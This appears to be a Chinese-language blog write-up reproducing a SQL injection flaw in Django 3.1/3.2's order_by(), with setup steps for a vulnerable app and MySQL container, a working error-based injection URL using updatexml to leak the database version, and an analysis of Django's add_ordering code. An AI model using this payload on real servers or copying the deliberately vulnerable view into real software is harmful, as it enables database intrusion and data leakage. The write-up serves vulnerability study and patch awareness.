

### 漏洞描述

Django 组件存在 SQL 注入漏洞，该漏洞是由于对 QuerySet.order_by()中用户提供数据的过滤不足，攻击者可利用该漏洞在未授权的情况下，构造恶意数据执行 SQL 注入攻击，最终造成服务器敏感信息泄露。

<!-- more -->

### 组件介绍


### 利用条件

**影响版本**

Django 3.2
Django 3.1

**条件：**

- `Debug=True`
- 接口使用`order_by`方法
- 正确的列名

**安全版本**

Django >= 3.2.5
Django >= 3.1.13


### 安装Django

```
python3 -m pip install django==3.2.4
```

验证一下是否安装成功：

```
[root@vuln /tmp]# python3 -m django --version
3.2.4
```


### 默认启动尝试

```
django-admin startproject demo

python3 manage.py runserver
```

这时候可以通过127.0.01:8000访问。

以0.0.0.0启动，**如果想远程访问开启demo/settings的`ALLOWED_HOSTS = ['*']`**

```
python3 manage.py runserver 0.0.0.0:8000
```


### 创建第一个应用

```
python3 manage.py startapp app
```


- app/view.py

  ```python
  from django.http import HttpResponse
  
  
  def index(request):
      return HttpResponse("Hello, world. You're at the app index.")
  ```

- 创建app/urls.py

  ```python
  from django.urls import path
  
  from . import views
  
  urlpatterns = [
      path('', views.index, name='index'),
  ]
  ```

  

- demo/urls.py

  ```python
  from django.contrib import admin
  from django.urls import include, path
  
  urlpatterns = [
      path('admin/', admin.site.urls),
      path('app/', include('app.urls')),
  ]
  ```

启动
```
python3 manage.py runserver 0.0.0.0:8000
```

访问
```
http://172.16.42.151:8000/app/
```

返回
```
Hello, world. You're at the app index.
```


### 漏洞环境搭建

**安装mysql驱动**

```
apt install python3-dev default-libmysqlclient-dev build-essential

python3 -m pip install mysqlclient


#mac
# Assume you are activating Python 3 venv
$ brew install mysql
$ pip install mysqlclient
```


**启动mysql数据库**

```
docker run -itd --name my-mysql -p 3306:3306 -e MYSQL_ROOT_PASSWORD=123456 -e MYSQL_DATABASE=demo mysql:8.0.15


docker exec -it my-mysql bash

mysql -u root -p

开启远程访问
use mysql;
ALTER USER 'root'@'%' IDENTIFIED WITH mysql_native_password BY '123456';
flush privileges;
```

继续使用上一步创建的项目

- app/models.py

  ```python
  from django.db import models
  
  # Create your models here.
  
  class Collection(models.Model):
      name = models.CharField(max_length=128)
  ```

  

- app/views.py

  ```python
  from .models import Collection
  
  def vul(request):
      query = request.GET.get('order', default='id')
      q = Collection.objects.order_by(query)
      return HttpResponse(q.values())
  ```

  

- 生成数据库

  ```
  python3 manage.py makemigrations && python3 manage.py migrate
  ```

- 给数据库添加数据


### 漏洞复现

访问

```
http://172.16.42.151:8000/app/vuln/?order=id
```

返回结果

```
{'id': 1, 'name': 'a'}{'id': 2, 'name': 'b'}
```

访问

```
http://172.16.42.151:8000/app/vuln/?order=-id
```

返回逆序

```
{'id': 2, 'name': 'b'}{'id': 1, 'name': 'a'}
```

注入(**这是通过django的debug功能报错注入**)

```
http://172.16.42.151:8000/app/vuln/?order=-id
```


```
http://172.16.42.151:8000/app/vuln/?order=.id);select%20updatexml(1,concat(0x7e,(select%20@@version)),1)%23
```





### 代码分析

漏洞出现在add_ordering函数

```python
    def add_ordering(self, *ordering):
        """
        Add items from the 'ordering' sequence to the query's "order by"
        clause. These items are either field names (not column names) --
        possibly with a direction prefix ('-' or '?') -- or OrderBy
        expressions.

        If 'ordering' is empty, clear all ordering from the query.
        """
        errors = []
        for item in ordering:
            if isinstance(item, str):
                if '.' in item:
                    warnings.warn(
                        'Passing column raw column aliases to order_by() is '
                        'deprecated. Wrap %r in a RawSQL expression before '
                        'passing it to order_by().' % item,
                        category=RemovedInDjango40Warning,
                        stacklevel=3,
                    )
                    continue
                if item == '?':
                    continue
                if item.startswith('-'):
                    item = item[1:]
                if item in self.annotations:
                    continue
                if self.extra and item in self.extra:
                    continue
                # names_to_path() validates the lookup. A descriptive
                # FieldError will be raise if it's not.
                self.names_to_path(item.split(LOOKUP_SEP), self.model._meta)
            elif not hasattr(item, 'resolve_expression'):
                errors.append(item)
            if getattr(item, 'contains_aggregate', False):
                raise FieldError(
                    'Using an aggregate in order_by() without also including '
                    'it in annotate() is not allowed: %s' % item
                )
        if errors:
            raise FieldError('Invalid order_by arguments: %s' % errors)
        if ordering:
            self.order_by += ordering
        else:
            self.default_ordering = False
```

如果我们的payload包含`.`，那么就会continue到如下语句

```
        if ordering:
            self.order_by += ordering
```

直接进行了sql语句的拼接。

正常会到names_to_path()函数，该函数会匹配传入的参数是不是model模型里的字段名。


## 参考

- https://www.freebuf.com/vuls/283262.html
- https://docs.djangoproject.com/
- https://docs.djangoproject.com/zh-hans/4.1/ref/databases/#mysql-notes
- https://pypi.org/project/mysqlclient/
